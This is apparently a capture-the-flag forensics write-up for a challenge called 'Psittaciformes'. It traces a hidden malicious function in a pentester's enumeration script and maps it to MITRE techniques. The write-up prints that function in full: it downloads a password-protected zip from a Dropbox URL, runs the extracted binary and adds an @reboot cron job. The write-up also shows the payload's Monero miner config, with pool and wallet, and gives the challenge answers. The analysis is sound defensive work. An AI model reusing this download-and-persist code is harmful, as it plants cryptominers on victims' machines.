

Psittaciformes

Task 1
After unzipping the challenge file, a single catscale_parrot_20241223-2233.tar.gz tarball was extracted.
I can extract it once again with tar.

There were many categorized logfiles inside, but the user_files directory caught my eye.
Since there was a repository used, I'll search for anything that could contain command history.
Bash History of johnspire is what I'd like to check now. Bash_history contains the history of commands used by this user.
The pentester cloned 3 repos but used only one script. I'll take the first repo name and input it as my answer.
Task 2
Having discovered the repository, I copied the link and checked it out on github.
There's only a single enum.sh script, which the pentester ran on the machine as I've seen in the bash_history file.
Looking at the code, this script just calls various tools for scanning. However, there is one function that looks incredibly suspicious.
do_wget_and_run() {
f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"
UNZIP_DIR="/tmp/"
part1="c3VwZXI="
part2="aGFja2Vy"
PASSWORD=$(echo "$part1$part2" | base64 -d)
FILE_URL="${f1}${f2}"
echo "------------------------------------------------------------------------------"
echo " System validation underway..."
echo "------------------------------------------------------------------------------"
echo "\n"
# Download the file
echo "Establishing connection to remote resource..."
curl -L -o "$OUTPUT_FILE" "$FILE_URL"
if [ $? -ne 0 ]; then
echo "Error during retrieval process. Terminating."
exit 1
fi
# Validate the downloaded file
FILE_TYPE=$(file -b "$OUTPUT_FILE")
if [[ "$FILE_TYPE" != *"Zip archive data"* ]]; then
echo "Artifact does not match expected configuration. Exiting."
exit 1
fi
echo "------------------------------------------------------------------------------"
echo " Preparing extracted elements for deployment"
echo "------------------------------------------------------------------------------"
# Extract the ZIP file
unzip -o -P "$PASSWORD" "$OUTPUT_FILE" -d "$UNZIP_DIR"
if [ $? -ne 0 ]; then
echo "Error during extraction process. Terminating."
exit 1
fi
# Locate and execute the file
BLOB_PATH="$UNZIP_DIR/blob"
if [ -f "$BLOB_PATH" ]; then
echo "------------------------------------------------------------------------------"
echo " Finalizing deployment sequence"
echo "------------------------------------------------------------------------------"
chmod +x "$BLOB_PATH"
"$BLOB_PATH"
# Add a cron job to run the file at startup
echo "------------------------------------------------------------------------------"
echo " Adding to cron for startup execution"
echo "------------------------------------------------------------------------------"
(crontab -l 2>/dev/null; echo "@reboot $BLOB_PATH") | crontab -
else
echo "Required component missing from extracted set. Terminating."
exit 1
fi
}
It tries to download a .zip archive from dropbox, unzips it, and then runs whatever is located inside. Not only that, it also sets up a cronjob so that the file will run at startup.
I'll input this function as the answer to task 2.
Task 3
There was a base64-encoded password, split into two parts and stored within the variables part1 and part2.
I'll take both pieces and I'll put them into cyberchef to decode the password.
The password for this .zip file is: superhacker.
Task 4
To get the full path of the zip file, all I have to do is just combine the two URL pieces (f1,f2) from the script code on github.
f1: https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2
f2: /blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1
Task 5
Back on the github repo page, I quickly found a relevant commit in which the comments were added.
However, in order to get the exact date of the commit I'll have to clone the repo onto my machine.
I'll keep the commit hash in my mind, and I'll run git log in the cloned repo.
The first commit from the top matches the hash, so I'll take the date from that one and I'll input it as my answer to task 5.
Task 6
I can easily see the changes made to a specific line in a script. I'll do so using git log.
git log -L 68,68:enum.sh
I specified 68,68 to grab changes made only within that line(that is where the URL bits begin), -L to trace by line, and enum.sh to check the script only.
I can see the original URL being replaced. I'll take the old one and input it as the answer to the task.
Task 7
I'll go to the mitre website and I'll search for persistence tactics related to cron since that was what I've seen used in the script.
I'll input T1053.003 as the answer to the 7th task.
Task 8
To solve the final task, I'll have to get the malicious zip file that was downloaded by the attacker.
I'll navigate to the dropbox link found in the script, using the decoded password from task 3(superhacker) to unzip the archive.
There is an executable file, but there's also a config file. Before doing anything with the binary, I will take a look at the JSON file.
# snippet
{
"algo": null,
"coin": "XMR",
"url": "xmr.kryptex.network:7777",
"user": "48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD/MyFirstRig",
"pass": "x",
"rig-id": null,
"nicehash": false,
"keepalive": true,
"enabled": true,
"tls": false,
"tls-fingerprint": null,
"daemon": false,
"socks5": null,
"self-select": null,
"submit-to-origin": false
}
],
Looking at this config file, I can say with confidence that the binary is an aggressive cryptocurrency miner.
With no limits on CPU usage, it would impact the target device severely and could make it unusable.
Additionally, the wallet address of our attacker is listed under "user". With a wallet address, I could perform some extra reconnaissance to get more information about the attacker and maybe even report them.
This technique is classified as T1496 or resource hijacking on mitre. Cryptominers fit into the .001 subtechnique(Compute hijacking).
Solved!